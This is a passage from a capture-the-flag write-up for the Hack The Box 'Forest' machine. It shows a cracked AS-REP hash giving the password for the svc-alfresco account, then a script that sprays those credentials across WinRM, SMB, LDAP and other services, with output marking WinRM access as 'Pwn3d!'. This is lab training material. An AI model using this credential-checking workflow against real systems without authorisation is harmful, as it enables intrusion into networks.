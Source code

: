 ```bash
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)  
```

nice! we found the password for user svc-alfresco, the updated creds for future reference are:
```bash
svc-alfresco
s3rvice
```

### Where can we login with found creds?

lets see where we can now login with those creds, using my script to bulk check automatically multiple services: [https://github.com/ch3ckkm8/auto_netexec](https://github.com/ch3ckkm8/auto_netexec)
```bash
./auto_netexec_bulk_creds_checker.sh forest.htb 'svc-alfresco' 's3rvice'
```

```bash
[*] Checking if winrm port 5985 is open on forest.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\\svc-alfresco:s3rvice (Pwn3d!)

[*] Checking if smb port 445 is open on forest.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\\svc-alfresco:s3rvice 

[*] Checking if ldap port 389 is open on forest.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\\svc-alfresco:s3rvice 

[*] Checking if rdp port 3389 is open on forest.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on forest.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.95.210   135    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
RPC         10.129.95.210   135    FOREST           [+] htb.local\\svc-alfresco:s3rvice 

[*] Checking if nfs port 2049 is open on forest.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on forest.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on forest.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on forest.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on forest.htb...
[-] Skipping mssql — port 1433 is closed
```
The above output indicates that we can login succesfully via the `win-rm` service (port 5985) 
